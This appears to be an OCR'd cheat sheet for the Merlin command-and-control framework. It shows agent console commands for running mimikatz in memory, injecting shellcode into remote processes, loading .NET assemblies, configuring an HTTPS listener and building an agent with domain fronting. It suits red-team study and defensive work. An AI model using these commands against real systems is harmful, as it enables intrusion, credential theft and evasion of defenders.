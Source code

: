 ##### Examples

```console
Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-assembly /PATH/TO/BINARY/<BINARY>
Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-assembly /PATH/TO/BINARY/<BINARY> <OPTION> "C:\\Windows\\System32\\WerFault.exe"
Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-pe /PATH/TO/BINARY/mimikatz.exe "coffee exit" "C:\\Windows\\System32\\WerFault.exe"
Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-pe /PATH/TO/BINARY/mimikatz.exe "coffee exit" "C:\\Windows\\System32\\WerFault.exe" <COMMENT>
Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-shellcode self <SHELLCODE>
Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-shellcode remote <PID> <SHELLCODE>
Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-shellcode rtlcreateuserthread <PID> <SHELLCODE>
Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» execute-shellcode userapc <PID> <SHELLCODE>
Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» load-assembly /PATH/TO/BINARY/<BINARY>
Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» invoke-assembly <BINARY>
Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» invoke-assembly <BINARY> <OPTION>
Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» load-clr v4.0
```

#### Example Usage

```console
Merlin» listeners
Merlin[listeners]» use https
Merlin[listeners][HTTPS]» info
Merlin[listeners][HTTPS]» set Interface 0.0.0.0
Merlin[listeners][HTTPS]» set Port <LPORT>
Merlin[listeners][HTTPS]» set PSK <PSK>
Merlin[listeners][HTTPS]» run
```

```console
Merlin» sessions
```

```console
Merlin» interact 2711ef1d-0b53-490d-add9-7ae3c0878b07 
Merlin[agent][2711ef1d-0b53-490d-add9-7ae3c0878b07]» info
```

##### Fixing Error Message: Orphaned Agent JWT detected. Returning 401 instructing the Agent to generate a self-signed JWT and try again.

```console
Merlin[agent][2711ef1d-0b53-490d-add9-7ae3c0878b07]» rev2self
```

#### Domain Fronting

```console
$ make linux URL=http://<>DOMAIN/ HOST=<LHOST> PROTO=http PSK=<PSK>
```

#### Simple Test Execution
